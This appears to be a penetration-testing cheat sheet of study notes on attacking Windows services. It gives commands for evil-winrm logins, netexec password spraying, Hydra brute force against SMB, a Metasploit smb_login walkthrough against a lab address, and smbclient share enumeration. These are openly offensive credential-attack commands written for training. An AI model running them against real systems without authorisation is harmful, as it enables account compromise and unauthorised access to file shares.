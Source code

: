 ### Content
- [Tools Usage](#tools-usage)
	- [Evil-WinRM Usage](#evil-winrm-usage)
	- [CrackMapExec/netexec Usage](#crackmapexec/netexec-usage)
	- [Hydra](#hydra)
- [Protocols](#protocols)
	- [SMB](#smb)
---
# Tools Usage
> [!Important]
> Use `netexec` instead of `crackmapexec` with the same syntax.

##### Evil-WinRM Usage
- To communicate with the WinRM service
``` bash
evil-winrm -i <target-IP> -u <username> -p <password>
```
##### CrackMapExec/netexec Usage
``` bash
netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
##### Hydra
- To brute force various protocols.
``` bash
hydra -L user.list -P password.list <protocol>://<IP>
```

> See Hydra.md in the Tools directory
---
# Protocols
### SMB
- Brute force SMB with hydra:
	``` bash
	$ hydra -L user.list -P password.list smb://10.129.42.197
	```
	- If we got an error `[ERROR] invalid reply from target smb://10.129.42.197:445/`
	- This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies.
	- use `msfconsole`
		``` bash
		$ msfconsole -q
		msf6 > use auxiliary/scanner/smb/smb_login
		msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
		msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
		msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
		msf6 auxiliary(scanner/smb/smb_login) > run
		```
- View the available shares and what privileges we have for them
	``` bash
	netexec smb 10.129.42.197 -u "user" -p "password" --shares
	```
- To communicate with the server via SMB
	``` bash
	# List all shares available
	$ smbclient -L 172.16.5.5 -U user%password
	
	$ smbclient -U user \\\\10.129.42.197\\SHARENAME
	```